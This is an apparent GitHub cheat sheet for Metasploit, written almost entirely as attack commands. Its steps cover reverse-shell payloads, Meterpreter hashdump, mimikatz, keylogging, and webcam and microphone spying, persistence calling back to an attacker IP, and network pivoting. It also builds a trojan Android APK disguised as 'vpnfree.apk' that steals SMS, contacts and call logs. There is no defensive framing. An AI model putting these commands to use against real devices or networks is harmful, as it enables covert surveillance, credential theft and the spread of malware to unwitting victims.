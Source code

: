 # MetaSploit

## Initialize
- Database settings: 
  - ```systemctl start postgresql```
  - ```msfdb init```
- Run
  - ```msfconsole```  
- Workspace
  - Create: ```workspace -a nasa``` 
  - Delete: ```workspace -d nsa```
  - Show: ```workspace```  
  - Go to a workspace: ``` workspace nasa``` 
- Session
  - ```sessions -l```
  - ```sessions -i 2```  

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```
- Web scanner path 
  - ```/usr/share/metasploit-framework/modules/auxiliary/scanner/http/```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
  - ```sysinfo```
  - ```ipconfig```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of *service.exe* or *explorer.exe* - DLL Hijack for persistant

## Persistance
- ```run persistence -U -i 20 -p 80 -r 10.20.14.203```

## msfvenom (Android)
- Create malware
  - ```msfvenum -p android/meterpreter/reverse_tcp -e shikata-ga-nai lhost=192.168.1.18 lport=443 R > /var/www/html/vpnfree.apk``` 
  - ```Keytool -genkey -v -keystore nss.keystore -alias nss -keyalg RSA -keysize 2048 -validity 100000```
  - ```jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore nss.keystore /var/www/html/vpnfree.apk nss```
- Listen in Kali (msfconsole)
  - ```use exploit/multi/handler```
  - ```set payload android/meterpreter/reverse_tcp```
  - ```set lhost 192.168.1.18```
  - ```set lport 443```
  - ```run -j```
- Exploit
  - ```sessions -l```
  - ```sessions -i 1```
  - ```geolocate```
  - ```dump_sms```
  - ```dump_calllog```
  - ```dump_contacts```
  - ```record_mic -d 15```
  - ```Webcam_snap```
  - ```webcam_snap -h```
  - ```webcam_list```
  - ```webcam_stream 2```
  - ```send_sms -h```
  - ```app_list```
    - show mobile app's 
  - ```app_run```
    - run one of above app 
  - ```shell```
    - open mobile shell (convert meterpreter shell to os shell)
     
     
## Pivot
- On victim, find a network interface with a different address from current subnet with ```ifconfig```
- Create a route between hacker and new victim
  - ```use post/windows/manage/autoroute```
  - ```set SESSION 1
  - ```set SUBNET 10.20.15.0```
  - ```exploit```
- Connect to new victim
  - ```use exploit/multi/samba/usermap_script```
  - ```set RHOST 10.20.15.4```
  - ```set PAYLOAD cmd/unix/bind_netcat```
  - ```exploit```


